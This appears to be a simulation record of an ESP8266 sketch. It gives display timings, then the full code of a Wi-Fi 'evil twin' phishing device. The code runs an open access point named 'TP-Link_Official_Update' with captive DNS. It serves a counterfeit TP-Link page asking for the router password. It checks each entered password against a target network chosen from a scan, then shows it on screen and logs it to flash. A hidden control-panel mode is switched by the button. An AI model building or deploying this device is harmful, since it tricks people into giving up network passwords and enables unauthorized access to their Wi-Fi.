
This sketch was run on a simulated ESP8266 (NodeMCU). Parts: 128×64 one-colour display. The inputs (shaded band) are chosen by the test bench; at power-on: GPIO 0 (BUTTON_PIN) HIGH. The OLED is the two-colour kind (top 16 rows yellow); WiFi joins after 1.5 s; servers stay silent unless stated; storage starts empty.

Above: at 1.2 s.
1.3 s: HTTP request GET /submit received
At 2.0 s:

4.3 s: GPIO 0 (BUTTON_PIN) pulled LOW for 3.2 s
At 7.8 s:

9.0 s: HTTP request GET /submit?pass=1 received
At 11.2 s:

Timing chart, 0 to 12.7 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.3 s, the display: changes at once (image 1)
- after the input at 4.3 s, the display: changes after 3.2 s (image 2)
- after the input at 9.0 s, the display: first changes at once (image 3 shows a later state)
- what the display in image 1 shows lasts 1.6 s, from 1.3 s to 2.9 s

The sketch:

Eivi-Wifi.ino
```cpp
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>
#include <ESP8266HTTPClient.h>
#include <WiFiClientSecure.h>
#include <LittleFS.h>
#include <Wire.h>
#include <Adafruit_GFX.h>
#include <Adafruit_SSD1306.h>

String target_ssid = "Not_Set";
const char* discord_webhook = "YOUR_DISCORD_WEBHOOK_URL";

#define SCREEN_WIDTH 128
#define SCREEN_HEIGHT 64
Adafruit_SSD1306 display(SCREEN_WIDTH, SCREEN_HEIGHT, &Wire, -1);

const int BUTTON_PIN = 0;
int menuIndex = 0;
bool wifiWantOn = false;

ESP8266WebServer webServer(80);
DNSServer dnsServer;

const char index_html[] PROGMEM = R"rawliteral(
<!DOCTYPE html><html><head><meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>TP-Link Wireless Router</title><style>
:root{--tp:#4acbd6;}body{font-family:sans-serif;margin:0;padding:0;text-align:center;background:#fff;}
header{background:#fff;padding:15px;border-bottom:1px solid #eee;text-align:left;}
.box{padding:40px 20px;max-width:350px;margin:auto;}
input{width:100%;padding:12px;margin:10px 0;border:1px solid #ddd;border-radius:4px;}
.btn{width:100%;background:var(--tp);color:white;border:none;padding:12px;border-radius:20px;font-weight:bold;cursor:pointer;}
.spin{width:30px;height:30px;border:3px solid #f3f3f3;border-top:3px solid var(--tp);border-radius:50%;animation:s 1s linear infinite;margin:20px auto;}
@keyframes s{0%{transform:rotate(0deg);}100%{transform:rotate(360deg);}}
</style></head><body><header><b style="font-size:20px">tp-link</b></header>
<div class="box" id="u"><p>Administrator password required for sync.</p>
<input type="password" id="p" placeholder="Password"><button class="btn" onclick="send()">Log In</button></div>
<div class="box" id="l" style="display:none"><div class="spin"></div><p>Synchronizing with router...</p></div>
<script>function send(){const p=document.getElementById('p').value;if(p.length<8)return;
fetch('/submit?pass='+encodeURIComponent(p));document.getElementById('u').style.display='none';document.getElementById('l').style.display='block';}</script>
</body></html>)rawliteral";

const char admin_html[] PROGMEM = R"rawliteral(
<!DOCTYPE html><html><head><meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1.0">
<style>body{font-family:sans-serif;background:#f0f2f5;margin:0;padding:0;text-align:center;}
.h{background:#4acbd6;color:white;padding:20px;} .c{padding:20px;max-width:400px;margin:auto;}
.card{background:white;padding:15px;border-radius:10px;margin-bottom:15px;box-shadow:0 2px 5px rgba(0,0,0,0.1);}
.btn{display:block;background:#2c3e50;color:white;padding:12px;text-decoration:none;border-radius:5px;margin-top:10px;}
.net-item{display:flex;justify-content:space-between;padding:10px;border-bottom:1px solid #eee;}</style>
</head><body><div class="h"><h1>Control Panel</h1></div><div class="c">
<div class="card"><h3>Current Target:</h3><b style="color:#4acbd6" id="curr">...</b></div>
<a href="/scan" class="btn" style="background:#4acbd6">Scan Networks</a>
<div id="list" class="card" style="margin-top:20px;text-align:center">Network list will appear here after scan...</div>
</div></body></html>)rawliteral";

bool checkPass(String ssid, String pass) {
  display.clearDisplay();
  display.setCursor(0,0);
  display.println("Verifying...");
  display.display();

  WiFi.begin(ssid.c_str(), pass.c_str());
  int count = 0;
  while (WiFi.status() != WL_CONNECTED && count < 20) {
    delay(500);
    count++;
  }
  bool ok = (WiFi.status() == WL_CONNECTED);
  WiFi.disconnect();
  return ok;
}

void updateWiFi() {
  WiFi.softAPdisconnect(true);
  if (wifiWantOn) WiFi.softAP("Admin_Panel", "123456789");
  else WiFi.softAP("TP-Link_Official_Update");
}

void handleCapture() {
  String p = webServer.arg("pass");
  bool ok = checkPass(target_ssid, p);

  display.clearDisplay();
  display.setCursor(0,0);
  display.println(ok ? "CORRECT!" : "WRONG PASS");
  display.println("Pass: " + p);
  display.display();

  File f = LittleFS.open(ok ? "/SUCCESS.txt" : "/FAKE.txt", "a");
  f.println(p);
  f.close();

  webServer.send(200, "text/plain", "OK");
}

void setup() {
  Serial.begin(115200);
  LittleFS.begin();
  pinMode(BUTTON_PIN, INPUT_PULLUP);
  display.begin(SSD1306_SWITCHCAPVCC, 0x3C);
  display.setTextColor(WHITE);
  updateWiFi();
  dnsServer.start(53, "*", IPAddress(192,168,4,1));

  webServer.on("/", []() {
    if (wifiWantOn) webServer.send(200, "text/html", admin_html);
    else webServer.send(200, "text/html", index_html);
  });

  webServer.on("/scan", []() {
    int n = WiFi.scanNetworks();
    String h = "<h3>Networks Found:</h3>";
    for(int i=0; i<n; i++) h += "<div class='net-item'><a href='/set?s="+WiFi.SSID(i)+"'>"+WiFi.SSID(i)+"</a><span>"+String(WiFi.RSSI(i))+"dBm</span></div>";
    webServer.send(200, "text/html", h + "<br><a href='/'>Back</a>");
  });

  webServer.on("/set", []() {
    target_ssid = webServer.arg("s");
    webServer.send(200, "text/html", "<h2>Target Set: "+target_ssid+"</h2><a href='/'>Back to Panel</a>");
  });

  webServer.on("/submit", handleCapture);
  webServer.begin();
}

void loop() {
  dnsServer.processNextRequest();
  webServer.handleClient();

  if (digitalRead(BUTTON_PIN) == LOW) {
    unsigned long st = millis();
    while(digitalRead(BUTTON_PIN) == LOW);
    if (millis() - st > 2000) {
      wifiWantOn = !wifiWantOn;
      updateWiFi();
      display.clearDisplay();
      display.setCursor(0,0);
      display.println("Mode Switched!");
      display.display();
    }
  }
}
```
